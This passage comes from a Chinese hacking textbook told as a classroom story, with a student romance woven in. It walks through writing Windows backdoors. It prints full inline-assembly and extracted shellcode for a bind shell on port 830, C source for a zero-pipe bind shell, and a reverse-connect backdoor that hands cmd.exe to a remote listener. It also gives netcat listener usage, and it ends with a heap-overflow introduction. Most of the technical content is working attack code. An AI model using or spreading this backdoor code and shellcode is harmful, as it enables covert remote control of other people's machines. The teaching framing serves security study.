“哎哟，困难来了！字符串的值好构造，但 sockaddr 结构的值在堆栈中怎么赋呢？”古风着急的问。

“呵呵，不要急！我们还是在 C 程序下通过调试观察 sockaddr 赋值的情况吧！如图 3-26。”


“我们来看看执行完对 sockaddr 结构的赋值后 Server 在内存中的值究竟是多少！”

“哦？如何看呢？”

“我们在内存窗口中看。在菜单栏上点鼠标右键，在弹出菜单中选“Debug”就会出现 Debug 工具栏，如图 3-27”


“我们在 Debug 工具栏中点中‘Memory’按钮，如图 3-28。”


“这样就会弹出内存窗口，如图 3-29。我们在内存窗口中输入 server 就会显示出 server 的值：02 00 03 3E 00 00 00 00，看右下方的内存窗口。”


“从图中可看出，如下执行后其实就是得到了 02 00 03 3E 00 00 00 00！” 宇强兴冲冲的说。

```
server.sin_family = AF_INET;    
server.sin_port = htons(830);   
server.sin_addr.s_addr=ADDR_ANY
```

“对！知道了确切要赋的值，我们就依葫芦画瓢吧！ push 0x0000，push 0x0000，push 0x3E030002 就在堆栈中构造出了 sockaddr 结构的值，而且 esp 就正好是结构的地址。我们把它保存给 esi 作为第二个参数压入堆栈。”

“好了，剩下就轻松了，最后一个参数是‘socket’。上面执行了 socket( )后，我们把 socket 的值保存在了 ebx 中，所以将 ebx 压入就可以了。”

“最后 call 调用函数。bind 函数地址存放在[ebp + 36]中。合起来就像下面这样。”

```
;bind(listenFD,(sockaddr *)&server,sizeof(server));
xor edi,edi            //先构造 server
push edi
push edi
mov eax,0x3E030002
push  eax           ; port 830  AF_INET
mov esi, esp                 //把 server 地址赋给 esi
push  0x10                           ; length
push esi                          ; &server
push ebx                         ; socket
call [ebp + 36]                ; bind
```

“嗯！有意思！” 玉波咂咂嘴说道。

“ok，理解了思路就很简单吧？”老师说，“后面用同样的方法将各个函数调用完。不知道数据怎么赋值时，就参看 C 程序的执行，可以得到我们的 pipe2ASM.cpp 程序。”

```
__asm
    {
         push ebp;
         sub  esp, 80; 
         mov  ebp,esp;
         //把要用到的函数地址存起来——以下都是 XP SP0
              mov eax,0x77e5727a
              mov [ebp+4],  eax;          CreatePipe
              mov eax,0x77e41bb8
              mov  [ebp+8],  eax;    CreateProcessA
              mov eax,0x77e97624
              mov  [ebp+12], eax;    PeekNamedPipe 
              mov eax,0x77e59d8c
              mov  [ebp+16], eax;    WriteFile
              mov eax,0x77e58b82
              mov  [ebp+20], eax;    ReadFile
              mov eax,0x77e55cb5
              mov  [ebp+24], eax;    ExitProcess
              mov eax,0x71a241da
              mov  [ebp+28], eax;    WSAStartup
              mov eax,0x71a23c22
              mov  [ebp+32], eax;    socket
              mov eax,0x71a23ece
              mov  [ebp+36], eax;    bind
              mov eax,0x71a25de2
              mov  [ebp+40], eax;    listen
              mov eax,0x71a2868d
              mov  [ebp+44], eax;    accept
              mov eax,0x71a21af4
              mov  [ebp+48], eax;    send
              mov eax,0x71a25690
              mov  [ebp+52], eax;    recv
              mov eax,0x0
              mov [ebp+56],0
              mov [ebp+60],0
              mov [ebp+64],0
 mov [ebp+68],0
              mov [ebp+72],0
LWSAStartup:
         ; WSAStartup(0x202, DATA) 
              sub esp, 400
              push esp
              push 0x202
              call [ebp + 28]
socket:
         ;socket(2,1,6)
              push 6
              push 1
              push 2
              call [ebp + 32]
              mov ebx, eax                ; save socket to ebx
LBind:
         ;bind(listenFD,(sockaddr *)&server,sizeof(server));
              xor edi,edi
              push edi
              push edi
              mov eax,0x3E030002
              push  eax     ; port 830  AF_INET
              mov esi, esp
              push  0x10               ; length
              push esi             ; &server
              push ebx             ; socket
              call [ebp + 36]          ; bind
LListen:
         ;listen(listenFD,2)
              inc edi
              inc edi
              push edi           ;2
              push ebx           ;socket
              call [ebp + 40]        ;listen
LAccept:
         ;accept(listenFD,(sockaddr *)&server,&iAddrSize)
              push 0x10
              lea  edi,[esp]
              push edi
              push esi           ;&server
              push ebx           ;socket
              call [ebp + 44]        ;accept
              mov ebx, eax       ;save newsocket to ebx
Createpipe1:
         ;CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);
              xor edi,edi
              inc edi
              push edi
              xor edi,edi
              push edi
              push 0xc      ;pipeattr
              mov esi, esp
              push edi      ;0
              push esi      ;pipeattr1
              lea eax, [ebp+60]  ;&hWritePipe1
              push eax
              lea eax, [ebp+56]  ;&hReadPipe1
              push eax
              call [ebp+4]
CreatePipe2:
         ;CreatePipe(&hReadPipe2,&hWritePipe2,&pipeattr2,0);
              push edi      ;0
              push esi      ;pipeattr2
              lea eax,[ebp+68]   ;hWritePipe2
              push eax
              lea eax, [ebp+64]  ;hReadPipe2
              push eax
              call [ebp+4]
CreateProcess:
         ;ZeroMemory TARTUPINFO,10h  PROCESS_INFORMATION  44h
              sub esp, 0x80
              lea edi, [esp]
              xor eax, eax
              push  0x80
              pop ecx
              rep stosd //清空 s?弞,?? i
         ;si.dwFlags
              lea edi,[esp]
              mov eax, 0x0101
              mov [edi+2ch], eax;
         ;si.hStdInput = hReadPipe2 ebp+64
              mov eax,[ebp+64]
              mov [edi+38h],eax
         ;si.hStdOutput si.hStdError = hWritePipe1 ebp+60
              mov eax,[ebp+60]
              mov [edi+3ch],eax
              mov eax,[ebp+60]
              mov [edi+40h],eax
         ;cmd.exe
              mov eax, 0x00646d63    
              mov [edi+64h],eax  ;cmd
         ;CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation)
              lea eax, [esp+44h]
              push eax           ;&pi
              push edi           ;&si
              push ecx           ;0
              push ecx           ;0
              push ecx           ;0
              inc  ecx
              push ecx           ;1
              dec  ecx
              push ecx           ;0
              push ecx           ;0
              lea eax,[edi+64h]  ;"cmd"
              push eax
              push ecx           ;0
              call [ebp+8]
loop1:
         ;while1
         ;PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
         sub esp,400h       ;
         mov esi,esp            ;esi = Buff
         xor ecx, ecx
         push ecx           ;0
         push ecx           ;0
         lea edi,[ebp+72]   ;&lBytesRead
         push edi           
         mov eax,400h
         push eax           ;1024
         push esi           ;Buff
         mov eax,[ebp+56]            
         push eax           ;hReadPipe1
         call [ebp+12]
         mov eax,[edi]
         test eax,eax
         jz recv_command
send_result:
         ;ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0)
         xor ecx,ecx
         push ecx      ;0
         push edi      ;&lBytesRead
         push [edi]         ;hReadPipe1
         push esi      ;Buff
         push [ebp+56] ;hReadPipe1
         call [ebp+20]
         ;send(clientFD,Buff,lBytesRead,0)
         xor ecx,ecx
         push ecx      ;0
         push [edi]         ;lBytesRead
         push esi      ;Buff
         push ebx      ;clientFD
         call [ebp+48]
         jmp loop1
recv_command:
         ;recv(clientFD,Buff,1024,0)
         xor ecx,ecx
         push ecx
         mov eax,400h
         push eax
         push esi
         push ebx
         call [ebp+52]
         //lea ecx,[edi]
         mov [edi],eax
         ;WriteFile(hWritePipe2,Buff,lBytesRead,&lBytesRead,0)
         xor ecx,ecx
         push ecx
         push edi
         push [edi]
         push esi
         push [ebp+68]
         call [ebp+16]
         jmp loop1
end:
     }
```

“每一个函数的执行都有详细的对应解释，大家下来可对照着参看，”老师说道，“这里我们编译、执行，然后 Telnet 830 端口。效果如图 3－30。”


“哇赛！成功了！纯汇编后门成功了 ！”同学们欢呼到，“太爽了！”

“完成了汇编，那接下来我们应该作什么呢？”老师问道。

“还用说吗？提取 ShellCode 啦！”台下齐声回答。

“对！”

# 3.4.2 看谁抄得快——提取 ShellCode

### 3.4.2 看谁抄得快——提取 ShellCode

“我们还是用老办法，对嵌入的汇编程序 pipe2ASM.cpp 在 VC 下按 F10 进入调试状态，然后调出汇编对应的机器码，如图 3－31。再然后嘛？嘿嘿……”

“知道啦，就是把它们抄下来嘛！”古风说道。

“天啊！这么多啊！”小倩吐了吐舌头。


“好，我们来组织个比赛——看谁抄得快。最先把 ShellCode 正确提取出来的获胜者可以得到一份神秘礼物！”老师说道。

“哦？好啊，好啊！”同学们纷纷拿出纸和笔。

老师发令：“预备！开始！”

台下奋笔疾书，有比赛就是不一样。

“抄完了！”古风最先说道。

过了一会，玉波也说道：“我也抄完了。”

宇强急死了，但他写字写得很慢，只好一笔一划的写下去。

老师等大家都完成得差不多了，说道：“好，大家可能都差不多完成了吧？”

“是啊，手都痛死了。”大家纷纷甩着又红又痛的手。

“哈哈！我第一！”古风一脸的灿烂。

玉波不服气，“那也不一定，如果你写错了一句呢？或者少抄了一句呢？”

“才不会呢！”

大家狂晕……

“不要吵，”老师出来调解，“我们来验证一下吧！”

3.4.3 验证 ShellCode 功能的方法

“提取了 ShellCode 后，怎么验证它是否正确呢？经常有人问如何知道那些 16 进制 ShellCode 的真正功能，这里就说一下。”

“第一种方法，我们打开 VC，新建一个工程和 C 源文件，然后把 ShellCode 拷下来存为一个数组（这里我们先用玉波提取到的 ShellCode 吧）！最后在 main 中添上 ( (void(*)(void)) &shellcode )() ，得到‘testBindCode1.cpp’。”

“ `(( void(*)(void)) &ShellCode)()` 是什么意思？”大家问道。

“ `(( (void(*)(void)) &ShellCode)()` 这句是关键，它把 ShellCode 转换成一个参数为空、返回为空的函数指针，并调用它。执行那一句就相当于执行 ShellCode 数组里的那些数据。”老师解释道。

“要验证 ShellCode 是否正确完成功能，我们直接运行看效果就可以了。编译、执行，ShellCode 打开了 830 端口，可以 telnet 成功，如图 3－32，证明玉波同学的 ShellCode 提取是正确的。”


“哈哈，我是保证质量啊！”玉波笑道。

“我们再看看古风同学提取的 ShellCode 吧！使用第二种方法，在 main 里面直接嵌入汇编语句 lea eax, ShellCode， call eax 。这是先把 ShellCode 的地址给 eax，然后 call eax 跳到 ShellCode 里面去执行。”

```
__asm
{
lea eax, ShellCode
call eax
}
```

“我们在 main 里加上图 3－33 里的这段汇编，然后执行，还是成功了！说明古风同学提取的也是正确的。”


“哈哈，太好了！我还担心有误呢！”古风笑呵呵的说。

“好，礼物闪亮登场！就是……赠送《Q 版系列图书》一本。”

“哇！这么好啊！”其他人口水都流出来了。

“古风同学和玉波同学都差不多同时完成，而且都正确了。那这样吧，书非借不能读也，你们一人看三天，然后交换，过两个周后给我一个书面学习汇报，行不？”

“行！”两人一口答应，“这样也可以提高效率！”

“好的。其他同学可要加油啊！希望下一次得奖的是你们！”

“另外，两位同学的 ShellCode 在这里，大家可以对照一下。”

```
unsigned char ShellCode[] = 
    "\x55\x83\xEC\x50\x8B\xEC\xB8\x7A\x72\xE5\x77\x89\x45\x04\xB8\xB8"
    "\x1B\xE4\x77\x89\x45\x08\xB8\x24\x76\xE9\x77\x89\x45\x0C\xB8\x8C"
    "\x9D\xE5\x77\x89\x45\x10\xB8\x82\x8B\xE5\x77\x89\x45\x14\xB8\xB5"
    "\x5C\xE5\x77\x89\x45\x18\xB8\xDA\x41\xA2\x71\x89\x45\x1C\xB8\x22"
    "\x3C\xA2\x71\x89\x45\x20\xB8\xCE\x3E\xA2\x71\x89\x45\x24\xB8\xE2"
    "\x5D\xA2\x71\x89\x45\x28\xB8\x8D\x86\xA2\x71\x89\x45\x2C\xB8\xF4"
    "\x1A\xA2\x71\x89\x45\x30\xB8\x90\x56\xA2\x71\x89\x45\x34\xB8\x00"
    "\x00\x00\x00\xC6\x45\x38\x00\xC6\x45\x3C\x00\xC6\x45\x40\x00\xC6"
    "\x45\x44\x00\xC6\x45\x48\x00\x81\xEC\x90\x01\x00\x00\x54\x68\x02"
    "\x02\x00\x00\xFF\x55\x1C\x6A\x06\x6A\x01\x6A\x02\xFF\x55\x20\x8B"
    "\xD8\x33\xFF\x57\x57\xB8\x02\x00\x03\x3E\x50\x8B\xF4\x6A\x10\x56"
    "\x53\xFF\x55\x24\x47\x47\x57\x53\xFF\x55\x28\x6A\x10\x8D\x3C\x24"
    "\x57\x56\x53\xFF\x55\x2C\x8B\xD8\x33\xFF\x47\x57\x33\xFF\x57\x6A"
    "\x0C\x8B\xF4\x57\x56\x8D\x45\x3C\x50\x8D\x45\x38\x50\xFF\x55\x04"
    "\x57\x56\x8D\x45\x44\x50\x8D\x45\x40\x50\xFF\x55\x04\x81\xEC\x80"
    "\x00\x00\x00\x8D\x3C\x24\x33\xC0\x68\x80\x00\x00\x00\x59\xF3\xAB"
    "\x8D\x3C\x24\xB8\x01\x01\x00\x00\x89\x47\x2C\x8B\x45\x40\x89\x47"
    "\x38\x8B\x45\x3C\x89\x47\x3C\x8B\x45\x3C\x89\x47\x40\xB8\x63\x6D"
    "\x64\x00\x89\x47\x64\x8D\x44\x24\x44\x50\x57\x51\x51\x51\x41\x51"
    "\x49\x51\x51\x8D\x47\x64\x50\x51\xFF\x55\x08\x81\xEC\x00\x04\x00"
    "\x00\x8B\xF4\x33\xC9\x51\x51\x8D\x7D\x48\x57\xB8\x00\x04\x00\x00"
    "\x50\x56\x8B\x45\x38\x50\xFF\x55\x0C\x8B\x07\x85\xC0\x74\x19\x33"
    "\xC9\x51\x57\xFF\x37\x56\xFF\x75\x38\xFF\x55\x14\x33\xC9\x51\xFF"
    "\x37\x56\x53\xFF\x55\x30\xEB\xC3\x33\xC9\x51\xB8\x00\x04\x00\x00"
    "\x50\x56\x53\xFF\x55\x34\x89\x07\x33\xC9\x51\x57\xFF\x37\x56\xFF"
    "\x75\x44\xFF\x55\x10\xEB\xA4";
```

# 3.5 进一步的探讨

## 3.5 进一步的探讨

宇强不服气的说：“写字速度是我的弱项，我们比比其他方面的吧！”

“以后有机会的。现在时间不早了，我们再进行点后门编写更高级的讨论吧！”老师说。

“哦！那好吧！”

# 3.5.1 更简单的办法——零管道后门

### 3.5.1 更简单的办法——零管道后门

“我们讲了双管道后门、单管道后门，其实还可以有不用新建管道的后门——零管道后门！”老师说道。

“啊?不用管道？那进程间怎么通信呢？”

“不是不用管道，”老师纠正道，“而是不用新建管道。”

“哦？”大家疑惑不解。

“其实是这样的，我们用 Socket 句柄直接替代 CMD 进程的输入和输出句柄，就像这样：”

```
si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD;
```

“哦？还可以这样啊！”大家一愣。

“对，这样替换后 CMD 的输入输出就可以直接和远程通信了，省去了进程间传输的所有东西。”

“啊？”

“我们来看看实现，”老师还提醒了一句，“但要注意，要用 WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0) 来建立 Socket 才能像这样替换。因为 WSASocket()创建的 Socket 默认是非重叠套接字，这样才可以直接将 cmd.exe 的 stdin、stdout、stderr 转向到套接字。而 socket()函数创建的 Socket 是重叠套接字，就不能这样。”

“组合起来，得到我们的零管道程序‘pipe0.cpp’，如下：”

```
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"Ws2_32")
int main()
{
         WSADATA ws;
         SOCKET listenFD;
         int ret;
         //初始化 wsa
         WSAStartup(MAKEWORD(2,2),&ws);
         //注意要用 WSASocket
         listenFD = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
         //监听本机 830 端口
         struct sockaddr_in server;
         server.sin_family = AF_INET;
         server.sin_port = htons(830);
         server.sin_addr.s_addr=ADDR_ANY;
ret=bind(listenFD,(sockaddr *)&server,sizeof(server));
         ret=listen(listenFD,2);
         //如果客户请求 830 端口，接受连接
         int iAddrSize = sizeof(server);
         SOCKET clientFD=accept(listenFD,(sockaddr *)&server,&iAddrSize);
         STARTUPINFO si;
         ZeroMemory(&si,sizeof(si));
         si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
         si.wShowWindow = SW_HIDE;
         si.wShowWindow = SW_SHOWNORMAL;
         si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD;
         char cmdLine[] = "cmd.exe";
         PROCESS_INFORMATION ProcessInformation;
         //建立进程 
  ret=CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);
         return 0;
}
```

“哇！好简短啊！”小倩说道。

“我们测试一下，运行，打开了 830 端口，而且可以登陆交互，如图 3－34。”


“呀！这么简单的后门，写起来多容易啊！”

“是啊！这么好的方法怎么不早说呢？我们就不用写双管道和单管道了。”大家说。

“NO，”老师纠正道，“这三种开端口后门的办法，各有优劣。零管道编写方法的确比较方便，但用户一输入命令就直接进入 CMD 进程执行了。有时我们想预先处理一下用户的命令，就需要用双管道或单管道的方法。”

“哦？”

“比如，我们可以在后门中加入列举进程的命令——pslist。CMD 里是没有这些命令的，所以我们就需要先判断用户传过来的是 pslist，然后在程序里面实现列举进程的功能，而不是传给 CMD 进程执行。”

“真是尺有所短，寸有所长啊！”同学们感叹道。

“说的好，就是这样的！”

# 3.5.2 正向连接和反向连接

### 3.5.2 正向连接和反向连接

老师说，“好累啊，本来还要讲反连后门的编写的，看来时间来不及了。大家下去讨论一下如何实现吧！”

“反连后门？是什么？”玉波问道。

“刚才的程序是目标机作为服务端，监听 830 端口；攻击机作为客户端，正向连接目标机的 830 端口，其示意图如图 3－35。”


“但如果目标机开启了防火墙，这种方法就不行了。目标机的防火墙会阻断对非法端口的连接，如图 3－36。”


“哦，那怎么办呢？”

“所以我们要使用反向连接。”老师说道。“其示意图如图 3－37。”


“反向连接是把攻击机作为服务端，监听一个端口；而目标机上运行的 ShellCode 的功能是主动连接攻击机监听的端口。一般的防火墙（特别是硬件防火墙）不会阻断内往外的连接，所以很多情况下是可以成功的。”

“哦！”

“而软件防火墙，有的可能会弹出一个对话框，询问是否允许往外连接，如果用户点击了不允许，那也不能成功。”

“还是不能完全成功啊？”大家遗憾的说。

“要突破那样的防火墙，需要用到更高级的 ShellCode 编程，我们以后再说。这里布置一个课后作业，实现并提取一个简单反连后门的 ShellCode，大家还是以刚才的分组进行操作。”

“啊？编写思路都还没有呢。”

“那我提示一下，这个 ShellCode 的功能是作为客户端，主动连接我们攻击机的一个端口。剩下的传输命令、执行命令，返回结果和前面类似。攻击机上开端口不用编程，用程序 NC 来开。”

“NC 是什么？”玉波问道。

“NC 是什么，大家去网上查查吧！这样可以锻炼你们解决问题的能力。明白了吗？”

“大家把讨论结果用 E-mail 发给我，这将作为一次平时作业的成绩。今天到此结束！下课！ByeBye！”

# 3.6 反连后门 ShellCode 的编写

## 3.6 反连后门 ShellCode 的编写

宇强回来后，找出记录小倩电话的纸，犹豫了半天，终于鼓起勇气拨出了号码。电话响了两声后，一个声音传来：“请问你找谁？”

“嗯……”宇强愣了一下，“请问小倩在吗？”

“在，你等等……”

哦，原来是她同学啊！

过了一会，小倩的声音从电话里传来。“喂！谁啊？”

“是我，今天和你一组讨论的宇强。”

“哦，是你啊，有什么事吗？”小倩问道。

宇强连忙解释：“老师不是布置作业了吗？你什么时候有空，我们一起讨论一下吧！然后作为平时的作业交上去。”

“好啊！”小倩笑了，“周末我要回家，那三十号上午吧！我没课。”

“哦，就是明天呀！好啊，我也没课，那明天 10 点钟我来找你吧！”

“好吧，再见！”

宇强放下电话非常高兴，忙着准备思路和实际测试。

# 3.6.1 总体思路和实现

### 3.6.1 总体思路和实现

第二天宇强按时拨通了小倩寝室的电话，这次是小倩自己接的。

“你好啊！我是宇强。我现在你们寝室下面。”

“好，你等一会儿，我马上下来。”

过了几分钟，小倩穿了件淡蓝色的外套，背着白色书包出现在了门口。宇强暗自惊叹，“好漂亮啊！”

宇强与小倩一行走在去三教的路上。在路上他们边走边聊。

在去第三教学楼的路上，要经过一个篮球场。宇强往里面望了望，好多人呀，有打篮球的、有练习排球的、也有打羽毛球的……他们沐浴在温暖的阳光中。

在教学楼门前，宇强看见了一对老人相互搀扶着散步，头发早已花白。虽然步履蹒跚，但他们的面容非常安详，两人在一起显得是多么的自然、谐。

宇强也不禁心里一动，“和我执子之手，与之偕老的人又在哪儿呢？

……

到三教后发现上自习的人很少，教室里只有三两个人。

小倩看了几个教室，小声说道：“怎么办？教室里都有人，说话打扰别人也不好啊！”

宇强眼睛一转，说：“去教师休息室吧！课间同学们都在那儿问老师问题，我们可以去那里讨论。”

“好主意！”小倩赞同的说道。

教室休息室里摆放着桌几、椅子，还有开水，以供老师在课间休息时饮用。条件还不错！

两人坐下后，宇强说道：“其实老师已经提示很多了，我们理一下思路，就可以把它实现。”

“哦？你这么厉害。”小倩说，“我查了一下老师说的 NC。任何计算机都可以用 NC 直接监听端口，用法是 nc －l －p port 。如果有别的计算机连接这个端口，也可以得到一个 Shell。”

小知识：黑客的瑞士军刀——NC

常用的用法：输入-h 可以得到帮助信息

-e prog 程序重定向，一旦连接，就执行

-i secs 延时的间隔

-l 监听模式，用于入站连接

-n 指定数字的 IP 地址，不能用 hostname

-o file 记录 16 进制的传输

-p port 本地端口号

-r 任意指定本地及远程端口

-s addr 本地源地址

-u UDP 模式

-v 详细输出——用两个-v 可得到更详细的内容

-w wait 超时的时间

-z 将输入输出关掉——用于扫描时

“对！” 宇强说道，“那我们在攻击机上用 nc –l –p 830 监听 830 端口，而在目标机上运行 ShellCode，其功能是主动连接我们攻击机的 IP 和 830 端口来接收命令。这就是反连的意思。”

“嗯，思路应该就是这样！”小倩说道。

“网络传输部分和正向类似，只不过 ShellCode 是客户端，流程应该是：”

socket()→connet(攻击机 ip，端口)→send/recv()→closesocket()

“实现也比较简单，像下面这样。” 宇强边说边写。

```
WSAStartup(MAKEWORD(2,2),&ws);
WSASocket(PF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
connect(s,(struct sockaddr *)&server,sizeof(server) );
```

“和 CMD 子进程连接也是一样的，或者用一个管道，或者用两个管道，或者不用管道，直接用 Socket 句柄来代替。” 宇强继续说，“就像下面这样：”

```
//CMD 的输入输出句柄，都用 Socket 来替换
si.hStdInput = si.hStdOutput = si.hStdError = (void *)s;
//建立进程    
ret=CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);
```

“把它们合起来就可以了吧？”小倩说。

“是啊，我们可以得到反向连接的程序（BackC.cpp），如下：”

```
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"Ws2_32")
int main()
{
     WSADATA ws;
     SOCKET s;
     int ret;
     //初始化 wsa
     WSAStartup(MAKEWORD(2,2),&ws);
     //建立 Socket
     s=WSASocket(PF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
     //连接对方 830 端口
     struct sockaddr_in server;
     server.sin_family = AF_INET;
     server.sin_port = htons(830);
     server.sin_addr.s_addr=inet_addr("127.0.0.1");
     //反向连接！
     connect(s,(struct sockaddr *)&server,sizeof(server) ); 
     STARTUPINFO si;
     ZeroMemory(&si,sizeof(si));
     si.cb = sizeof(si);
     si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
     si.wShowWindow = SW_HIDE;
     //CMD 的输入输出句柄，都用 Socket 来替换
     si.hStdInput = si.hStdOutput = si.hStdError = (void *)s;
     char cmdLine[] = "cmd.exe";
     PROCESS_INFORMATION ProcessInformation;
     //建立进程    
     ret=CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);
      return 0;
}
```

“哇，很清晰的思路嘛！”

宇强听后暗自狂喜，心想总算没有白熬至深夜两点。

“好，如果测试的话，就先执行 nc –l –p 830 来监听，然后运行程序 backC.cpp。如果一切正常，就应该如图 3－38 所示，NC 得到了一个 shell。” 宇强说。


“剩下就是转换成汇编和 ShellCode 了。”

“这个可是苦力活啊……”小倩吐了吐舌头。

“那这样吧，我周末回家的时候生成 BackAsm.cpp 和 BackShellCode.cpp 发给老师，也帮你发一份。”

“好啊！就麻烦你了。”小倩说。

“那里，客气了。” 宇强心里高兴极了。

“这个也应该算是个木马吧？”小倩问道。

“是啊，一个简单的特洛依木马。”

“哦！特洛依木马？现在正在放《特洛依》电影呢！”小倩说，“听说很好看的，程序这件事挺麻烦你的，我请你看电影吧！”

“啊？那怎么行！” 宇强赶紧推辞。

“哎哟！别争来争去了，那我们就 AA 吧！”

“嗯，行！”

# 3.6.2 从神话到史诗——《特洛依》

### 3.6.2 从神话到史诗——《特洛依》

《特洛依》的场影拍得很有气势！

电影放映到中场时，宇强说：“刚才电影里的那个‘特洛依’看来属于反连后门哦！”

“呵呵，”小倩被逗乐了，“是刚才我们写的那种吗？”

宇强挠了挠头，说道：“不过好像也是正连后门，主动开的城门——端口，让希腊人（攻击端）连接。”

“哈哈！”小倩更乐了。

……

电影完毕，宇强送小倩回寝室。至楼下时，宇强说：“我把手机号给你吧，有什么事情好联系！”

“好的，我记下了，不过我现在还没有手机，可能会回家买！”

“好的，周末愉快！再见！”

“谢谢，你也是，byebye！”

# 课后解惑

## 课后解惑

Q：为什么要推广 Ipv6 呢？Ipv4 有什么缺点吗？

A： Ipv4 最大的缺点就是能分配的 IP 资源不足。除此之外，Ipv4 还存在一些安全上的缺陷，比如不鉴别源端的合法性等。

Q：讲了三种监听端口后面的实现方法，分别是双管道、单管道和零管道，究竟哪种方法最好呢？

A：兵无定势，水无常行。不存在最好的方法，只有最适合实际情况的方法。我认为最好的方法对你来说未必方便，很多事情都是这样的。不过，非要给答案的话，建议大家尽量考虑使用管道吧！因为 Winsock 建议使用像 Socket 的重接套接字。

Q：测试单管道后门程序时，我用 Telnet 登陆成功，但不能执行命令，比如敲入 dir 命令，结果显示“d 不是程序或命令，i 不是程序或命令，r 不是程序或命令”，真奇怪！

A：呵呵！因为 Telnet 的设计目的是最大限度的减少时延。所以它遵循的是用户刚输入字符就马上传送过去。这样你的 dir 命令就被分为 d、i、r 分别发送了。而单管道那面的实现，是一收到字符就执行，当然不能执行成功了。

Q：如果我要坚持用单管道后门，该怎么办？

A：一种方法是改进你的 ShellCode，不要刚收到命令就传给 CMD 子进程执行，而是先把命令存起来，收到回车后，才一起传给 CMD 子进程；

另一种方法是改进客户端，不用 Telnet，而使用 NC。NC 会等待用户输入命令，直到敲入回车以后才一起发送过去。当然，你也可以自己写一个登陆程序。

Q：有些后门程序执行也成功，登陆也成功。但想退出时，输入 exit 命令时程序就会死在那里，无论敲什么都退不出来，怎么回事？

A：不是 CMD 子进程退不出来，而是 CMD 子进程执行 exit 后都已经退出了。你无论再输入什么，子进程都不会有输出。但没有退出那个接收消息的循环，所以 ShellCode 就一直收命令，但什么也做不了。

解决方法：可以加个字符判断。如果接收的命令是 exit ，就退出 ShellCode 的循环。

Q：我按照书上的步骤测试，提取出 ShellCode，并在溢出程序中测试，但不能成功，为什么呢？我的环境是 XP SP2。

A：不能成功的原因有很多，本书后面会有详细的分析。但 XP SP2 加入了新的安全保护措施，你先换个系统测试吧！

Q：先写汇编，然后提取 ShellCode，感觉有点麻烦也……

A：一般的 ShellCode 功能比较少，代码也比较短，所以用汇编写，在熟之后，还是比较方便的。多练习一下就好了。

Q：那对功能要求比较多的 ShellCode，应如何方便的写呢？

A：也有简单的方法！我们可以用高级语言写代码，再直接提取成 ShellCode。但要经过一定处理，使其符合流程。我们将在高级 ShellCode 编写技巧中提到。

# 第四章 Windows 下堆溢出利用编程

# 第四章 Windows 下堆溢出利用编程

周末很快就过去了，宇强正准备去上课，突然收到了条手机短信。宇强打开一看，哇！居然是小倩。

“我买手机了，这是我的手机号——吴小倩。”

她回家果然买了个手机。宇强想了想，赶忙回复短信信，“现在去上课吗？我们一起去吧！在报亭见怎样？”

发完后，宇强怀着不安的心情等待着，并对自己的唐突行为有点自责！

过了一会，小倩回短信了，“好吧！一会见。”

宇强不安的心终于平稳了下来，好高兴啊！

从报刊亭去教室的路上，宇强一直给小倩讨论着喜欢的足球，世界杯上马拉多纳的长途奔袭、齐达内的两次抢点。

让宇强吃惊的时，小倩居然除了贝克汉姆外，还知道劳尔。

……

# 4.1 堆溢出初探

## 4.1 堆溢出初探

走进教室时，老师已经到了。两人急忙找空位置坐下。

“这周末大家过得还不错吧？”老师问道。

“好！”大家齐声回答。

“大家发过来的作业（反连后门的 ShellCode）我都看过了，做的都很认真。学习就是要有这样的精神！”老师满意的说道。

“你帮我发给老师了吗？”小倩小声的问旁边的宇强。

“嗯，放心吧！发了。”宇强说。

老师在台上继续说道：“现在大家用的提取 ShellCode 的方法，都是先写出汇编，然后再一句句的对应着抄下来。虽然麻烦，但可使大家多次熟悉程序的流程，对大家掌握基础是大有好处的。”

老师歇了下说道：“当然，也有些轻松提取 ShellCode 的方法，等大家知识进一步巩固后，我再教给大家！”

“哦，那今天讲什么呢？”古风急着问道。

“Windows 下的溢出有很多种，比如格式化溢出、整数溢出、堆栈溢出和堆溢出等。而现实中最常利用的是堆栈溢出和堆溢出。所以学习缓冲区溢出，除了堆栈溢出外，还得学习堆溢出！”

“哦！那今天是学习堆溢出？”

“是的。”

“堆？是什么呀？感觉《数据结构》里面也有堆这种概念。”宇强联想到了另一门课。

“不错！但这里的堆不是《数据结构》里说的堆；《数据结构》里的堆是种抽象结构，要求父结点比子结点的值都大（或小）；而这里我们说的堆，是 Windows 系统中的一种物理结构，用来动态分配和释放对象，用在事先不知道程序所需对象的数量和大小的情况下，或对象太大而不适合堆栈分配程序的时候。英文就是 heap。”老师说。

“堆栈溢出和堆溢出，只相差一个字，但内容却完全不同。”老师说道，“堆栈，在可执行程序的 text 区，是从高地址向低地址扩展，是存放局部变量的地方，在编译时由编译器静态分配。”

“而堆，是在可执行程序的 heap 区，从低地址向高地址扩展，是存放由 malloc 等函数动态分配数据的地方。其结构关系在内存中的映射如图 4－1。当然，还有其他的 data 区等。”


“堆栈溢出，我们已经详细分析利用过了。而堆溢出，就是给分配的堆拷字符串时超过了所分配的大小，从而造成的溢出。我们也可利用堆的溢出来实现我们想要的功能。”

“在 Windows 下，用户要求分配堆时，可以通过一系列函数来完成。可以使用 Win32 的堆调用 API 函数，或者 C/C++运行期库的函数等。”

小知识：和“堆”有关的几个 API 函数

HeapAlloc 在堆中申请内存空间

HeapCreate 创建一个新的堆对象

HeapDestroy 销毁一个堆对象

HeapFree 释放申请的内存

